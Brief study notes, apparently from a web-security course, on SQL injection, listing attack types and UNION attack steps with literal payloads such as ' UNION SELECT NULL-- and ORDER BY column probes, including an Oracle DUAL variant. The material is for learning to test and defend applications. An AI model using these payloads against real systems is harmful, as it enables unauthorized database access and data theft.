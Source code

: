 # sqlin


#common sql injection attack :

-Retrieving hidden data, where you can modify an SQL query to return additional results.
-Subverting application logic, where you can change a query to interfere with the application's logic.
-UNION attacks, where you can retrieve data from different database tables.
-Examining the database, where you can extract information about the version and structure of the database.
-Blind SQL injection, where the results of a query you control are not returned in the application's responses.



 #For a UNION query to work, two key requirements must be met:

    The individual queries must return the same number of columns.
    The data types in each column must be compatible between the individual queries.



# union attack steps:

-Determining the number of columns required in an SQL injection UNION attack :

  - ' ORDER BY 1-- or  ' ORDER BY 2-- etc 
  - ' UNION SELECT NULL-- or ' UNION SELECT NULL,NULL -- etc (recommended)
  - 
-Finding columns with a useful data type in an SQL injection UNION attack 
  - if the query returns four columns, you would submit:
    - ' UNION SELECT 'a',NULL,NULL,NULL--
    - ' UNION SELECT NULL,'a',NULL,NULL--
    - ' UNION SELECT NULL,NULL,'a',NULL--
    - ' UNION SELECT NULL,NULL,NULL,'a'-- 

# notes:
  - There is a built-in table on Oracle called dual which can be used for this purpose : ' UNION SELECT NULL FROM DUAL-- (MUST in oracle )
  -  the hash character # can be used to identify a comment 

